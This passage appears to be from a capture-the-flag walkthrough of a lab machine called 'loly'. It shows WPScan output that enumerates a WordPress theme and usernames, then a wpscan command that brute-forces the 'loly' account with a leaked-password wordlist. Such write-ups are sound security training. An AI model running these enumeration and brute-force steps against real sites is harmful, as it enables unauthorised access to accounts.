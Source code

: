 ```bat
 | Location: http://loly.lc/wordpress/wp-content/themes/feminine-style/
 | Last Updated: 2019-10-17T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/feminine-style/readme.txt
 | [!] The version is out of date, the latest version is 2.0.0
 | Style URL: http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5
 | Style Name: Feminine Style
 | Style URI: https://www.acmethemes.com/themes/feminine-style
 | Description: Feminine Style is a voguish, dazzling and very appealing WordPress theme. The theme is completely wo...
 | Author: acmethemes
 | Author URI: https://www.acmethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5, Match: 'Version: 1.0.0'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <======================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] A WordPress Commenter
 | Found By: Rss Generator (Passive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Mar  2 20:13:38 2021
[+] Requests Done: 54
[+] Cached Requests: 7
[+] Data Sent: 14.804 KB
[+] Data Received: 421.805 KB
[+] Memory used: 155.531 MB
[+] Elapsed time: 00:00:15

```
We can see we found user namely `loly`. So we can bruteforce the user to login wordpress. In this case i'm still using wpscan to bruteforce password . You also using hydra to bruteforce. wpscan : `$ wpscan --url http://loly.lc/wordpress -U loly -P /home/razor/Documents/Wordlist/SecLists/Passwords/darkweb2017-top1000.txt`
